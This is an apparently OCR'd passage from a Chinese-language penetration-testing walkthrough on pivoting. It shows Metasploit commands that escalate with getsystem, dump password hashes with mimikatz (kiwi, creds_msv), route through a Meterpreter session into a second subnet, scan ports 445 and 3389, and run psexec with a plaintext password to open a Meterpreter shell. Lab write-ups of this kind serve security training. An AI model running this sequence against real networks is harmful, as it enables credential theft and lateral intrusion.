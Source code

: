 ```armasm
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
High
```

mimikatz获取hash

```armasm
use exploit/multi/handler
run
getsystem
load kiwi
help
creds_msv
```

### 20.3.3 设置路由和代理

```armasm
ipconfig
发现是双网卡192和172段

meterpreter > bg
[*] Backgrounding session 12...

route add 172.16.5.0/24 12
route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12

端口扫描
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.5.200
set PORTS 445,3389
run

use exploit/windows/smb/psexec
set SMBUser luiza
set SMBPass "BoccieDearAeroMeow1!"
set RHOSTS 172.16.5.200
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run
```

自动设置路由
